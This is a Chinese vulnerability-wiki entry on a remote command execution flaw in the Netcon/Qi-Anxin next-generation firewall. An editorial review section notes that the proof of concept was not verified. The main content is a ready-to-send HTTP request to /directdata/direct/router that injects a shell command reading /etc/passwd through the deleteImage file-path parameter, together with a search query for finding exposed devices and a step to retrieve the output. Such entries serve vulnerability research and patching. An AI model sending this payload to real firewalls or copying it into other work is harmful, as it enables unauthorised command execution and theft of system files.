

# 网康 下一代防火墙 router 远程命令执行漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：网康/奇安信下一代防火墙
- 本文讨论：directdata/direct/router SSLVPN_Resource.deleteImage
- 版本、权限与配置前提：请求无cookie、固件未列；删除图片功能副作用
- 资料类型：RPC命令注入PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 未解释随机键f8839p7rqtj是否鉴权/路由必需，无版本和补丁
- 输出截图未视检，写文件回显需区分既存文件
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 随机参数作用、删除前提和真实版本待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## 网络测绘

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下


发送如下请求包

```http
POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

再请求获取命令执行结果

```plain
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
